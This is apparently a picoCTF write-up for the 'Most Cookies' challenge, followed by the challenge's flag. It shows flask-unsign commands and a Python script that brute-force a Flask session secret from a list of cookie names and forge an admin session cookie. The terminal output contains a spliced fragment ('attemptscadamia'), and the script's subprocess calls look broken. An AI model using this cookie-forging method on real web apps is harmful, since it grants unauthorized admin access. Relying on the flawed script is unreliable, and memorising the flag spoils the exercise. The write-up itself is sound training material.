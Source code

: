 ## Most Cookies

This problem requires you to change the payload in the JWT. Since we know all the possible secrets from the server.py file, we can brute force it using flask-unsign. After we get the cookie we can follow the commands below to unsign the cookie, insert the new payload which will grant us admin, and resubmit the new cookie.

## Terminal
```bash
$ pip install flask-unsign[wordlist]
$ flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YGHZvg.hvmOT3C_J1RVk3yrj7zA9Dxo8lA --wordlist wordlist.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'wafer'
$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret wafer
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGHbOQ.4iogbBnCbe4C3zanPAtBnYj9CUg
```

Alternatively you can use this script

## Script
```python
# Import Libraries
from bs4 import BeautifulSoup
from subprocess import run
import requests

url = "http://mercury.picoctf.net:44693/"

# Get cookie
session = requests.Session()
response = session.get(url)
cookie = session.cookies.get_dict().get('session')

# Create wordlist
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

F = open('wordlist.txt', 'w') 
for name in cookie_names:
    F.write(name + "\n")
 
F.close()

# convert
secret = run(f"flask-unsign --unsign --cookie {cookie} --wordlist wordlist.txt").stdout
payload = "\"{'very_auth':'admin'}\""
sign = run(f"flask-unsign --sign --cookie {payload} --secret {secret}").stdout

# Send cookies to website
cookies = dict(session=sign[:-1])
response = requests.get(url, cookies=cookies)
soup = BeautifulSoup(response.text, "html.parser")

# Retreive flag from page
flag = soup.select("body > div.container > div.jumbotron > p:nth-child(2)")[0]
print(flag.get_text())
```

### Flag
`picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}`

